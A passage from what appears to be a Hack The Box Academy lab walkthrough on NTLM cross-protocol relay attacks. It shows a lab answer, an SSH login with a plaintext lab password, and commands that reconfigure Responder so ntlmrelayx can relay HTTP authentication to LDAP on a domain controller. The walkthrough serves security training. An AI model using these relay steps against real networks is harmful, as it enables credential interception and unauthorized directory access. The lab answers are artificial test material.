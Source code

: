 
Answer: `SMTP_PlainText_Creds`

## NTLM Cross-protocol Relay Attacks

### Question 2

#### "Relay HTTP NTLM authentication over LDAP(S) to dump the LDAP information on the DC (172.16.117.3); submit the account name starting with 'prototype'."

Using the previously spawned target, students will have to note that they will need to either establish two SSH connections to the spawned target machine, use `tmux`, or connect to the target via `RDP`. This is because they will utilize `Responder` , and `ntlmrelayx`, and since those tools take over the stdin while they are running.

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```

Subsequently, students need to change their working directory to `tools/Responder`. They will have to turn off the SMB Server and HTTP Server, usually started by `Responder` by altering the configuration in the `Responder.conf` file located in the same directory. This is done to allow the relayed authentication to go to `ntlmrelayx`.

Code: shell

```shell
cd tools/Responder
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
cat Responder.conf | grep -ie "SMB =\|HTTP ="
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf

htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -ie "SMB =\|HTTP ="
SMB = Off
HTTP = Off
```
